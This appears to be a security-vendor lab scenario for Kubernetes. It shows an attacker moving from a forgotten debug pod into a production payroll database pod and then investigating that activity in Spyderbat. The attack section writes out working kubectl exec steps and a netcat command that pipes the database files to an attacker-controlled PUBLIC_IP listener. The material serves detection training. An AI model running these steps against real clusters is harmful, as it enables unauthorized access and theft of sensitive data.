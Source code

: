 # Lateral Movement Within the Cluster

This scenario shows an attacker accessing one portion of a cluster, and using the access in that namespace to move to another and exfiltrate data.

## Running the Exploit

For this scenario, we are going to use some debugging resources left over by Bob, a developer who decided he needed to be able to get direct access to the RSVP app to debug it. Since he forgot to clean up after solving the bugs, there is now an extra pod in the build namespace with some convenient developer tools.

Let's exec into the developer pod to begin.

```sh
kubectl exec -it -n lateral-movement-build bobdev -- /bin/bash
```

Let's take a look around to see what we can do:

```
bash-4.2# id
uid=0(root) gid=0(root) groups=0(root)

bash-4.2# sudo -l
bash: sudo: command not found

bash-4.2# ps -aux
bash: ps: command not found
```

Looks like a pretty locked down container. Let's use a one-liner to check what is running on it instead of `ps`:

```sh
for pid in $(ls /proc | grep -P '[0-9]'); do cat /proc/$pid/cmdline 2>/dev/null | tr '\0' ' ' && echo; done
```

```
sleep infinity 
/bin/bash 
/bin/bash
```

It looks like this container isn't doing anything (aside from our shell); it must just be for debug access.

Taking a look at the bash history, it looks like Bob used kubectl to get into another namespace:

```sh
history
```
```
    1  ls
    2  kubectl config view
    3  kubectl get pods -A
    4  kubectl get pods -n lateral-movement-prod
    5  kubectl describe pods -n lateral-movement-prod
    6  kubectl exec -n lateral-movement-prod payrolldb-6f7996c855-vrmrt -- hostname
    7  id
    8  sudo -l
    9  ps -aux
   10  for pid in $(ls /proc | grep -P '[0-9]'); do cat /proc/$pid/cmdline 2>/dev/null | tr '\0' ' ' && echo; done
   11  history
```

It looks like the deployment he was accessing is still here:

```sh
kubectl get pods -n lateral-movement-prod
```
```
NAME                         READY   STATUS    RESTARTS   AGE
payrolldb-6cd4447758-2zcq4   1/1     Running   0          3m9s
```

Let's follow in Bob's footsteps.

```sh
kubectl exec -it -n lateral-movement-prod $(kubectl get pods -n lateral-movement-prod -o jsonpath='{.items[0].metadata.name}') -- /bin/bash
```

Now, we have ended on a pod in the production namespace, and a database pod on top of that. Let's take a look around:

```
root@payrolldb-6cd4447758-2zcq4:/# whoami
root
root@payrolldb-6cd4447758-2zcq4:/# ls
bin  boot  data  dev  docker-entrypoint-initdb.d  etc  home  js-yaml.js  lib  lib32  lib64  libx32  media  mnt	opt  proc  root  run  sbin  srv  sys  tmp  usr	var
root@payrolldb-6cd4447758-2zcq4:/# ls data/
configdb  db
```

It looks like we have full access to the database:

```sh
ls -la data/db
```

From here, we can directly extract the data we want. For example, using netcat: on a different publicly accessible computer with open ports (such as the jumpserver set up for the external lateral movement demo), run this command:

```sh
# on a separate attacker-controlled server
nc -l 1234 > download
```

Then run this in the pod:

```sh
apt update && apt install netcat
# make sure to edit this with the correct PUBLIC_IP of the listening server
cat data/db/collection-0-*.wt | nc PUBLIC_IP 1234
# wait a few seconds, then kill the command with Ctrl-C
```

On the public server, you should now have the collection-0 file in `download`.

```
[ec2-user@ip-172-32-65-41 ~]$ ls -l
total 20
-rw-r--r--. 1 ec2-user ec2-user 20480 Aug 21 21:48 download
```

## Investigation

Now that we have demonstrated lateral movement within the cluster, let's see what this looks like in Spyderbat. This test should trigger two Spydertraces - one for each container we have accessed. On the Spyderbat Console's Dashboard page, navigate to the Security tab. Under "Recent Spydertraces with a score > 50", there are two new traces, likely labeled `container_shell` or `root_shell` (or `falco_flag`, if you have the Falco integration installed). Select these two traces and click "Start Process Investigation" to start investigating these two traces together.

![The original messy trace](./lateral_movement_messy.png)

At first, the resulting graph may seem like a mess, but it is easy to clean up. First, let's make sure that we have all of the necessary information by zooming in and right-clicking on the root bash processes inside of each container, then selecting "Add X Descendants". You may also need to select "Add X Descendant Connections" if available.

![The right-click menu for one of the bash processes](./lateral_graph_editing.png)

Next, we can take a look at bash's immediate children. It is clear from the tree connections that the `apt` processes have many descendants. In this case, they are mostly irrelevant; just extra processes used in the packaging tool. To remove them, right-click the `apt` processes, and select "Remove X Descendants".


![An example graph of this exploit.](./lateral_movement_process_graph.png)

To further help understand the attack, we can use the bash command viewer: click on the bash process inside each pod and expand the viewer in the top right corner.

![An example of the bash viewer](./bobdev-bash-viewer.png)

With the noise out of the way, we can now more clearly see the sequence of events. On the leftmost machine, the attacker accessed the bobdev container and ran some kubectl commands. Looking at the command for the last kubectl process, we can see an exec into the payrolldb container.

![The details for the kubectl exec process](./kubectl_exec.png)

From there, the attacker explored their access, then installed a data exfiltration command and ran it, connecting to another IP. To ensure that you have the whole picture, you can right-click the `nc` connection and try adding the peer connection, or run a search for the remote IP address.

Once you have a graph with all the information you are interested in, you can save it and share it with other users in your organization by clicking "Copy Investigation Link" at the top of the graph view.

## Next Steps

With the data gathered in this investigation, we can now prepare a few recovery steps:

- Determine what data was in the file exfiltrated with the `nc` command.
- Remove the development container that Bob left.
- Check for any other containers that should not exist in the production environment. Spyderbat's Search feature could help with this - search for Containers where the image matches `*devops*`, for example.
- Rotate the kubectl access keys used to access the devops container and the payroll container.
- Revise debugging procedures for the affected applications.
- [Set up a Spyderbat cluster policy](https://docs.spyderbat.com/tutorials/guardian/how-to-put-guardrails-around-your-k8s-cluster-spyctl) to prevent unauthorized pods and images from being run in the cluster

## Further Reading

- [A detailed overview of Spyderbat's Search tool - Spyderbat Documentation](https://docs.spyderbat.com/concepts/search)
- [Guardian and Interceptor Policies - Spyderbat Documentation](https://docs.spyderbat.com/concepts/guardian)
- [How to Lock Down Your Workloads With Guardian Policies Using Spyctl - Spyderbat Documentation](https://docs.spyderbat.com/tutorials/guardian/how-to-lock-down-your-critical-workloads-with-policies-spyctl)

